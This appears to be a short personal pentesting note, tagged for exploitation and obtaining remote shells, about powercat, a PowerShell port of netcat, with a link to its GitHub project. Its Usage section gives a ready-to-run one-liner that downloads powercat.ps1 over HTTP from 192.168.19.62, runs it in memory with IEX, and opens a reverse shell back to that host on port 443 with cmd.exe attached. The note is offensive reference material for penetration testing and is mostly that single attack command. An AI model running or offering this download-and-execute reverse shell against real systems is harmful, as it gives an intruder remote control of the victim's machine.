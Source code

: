 ```yaml
---
tags:
  - Exploitation
  - ObtainingRemoteShells
  - Tooling
---
```

Netcat: The PowerShell version. (PowerShell Version 2 and Later Supported),

[GitHub - besimorhino/powercat: netshell features all in version 2 powershell](https://github.com/besimorhino/powercat)
# Guide

1. Linux version, see [[3. Exploitation/Obtaining Remote Shells/Tooling/Netcat|Netcat]]


## Usage 

```
c:\\windows\\SysNative\\WindowsPowerShell\\v1.0\\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://192.168.19.62:8000/powercat.ps1'); powercat -c 192.168.19.62 -p 443 -e cmd.exe
```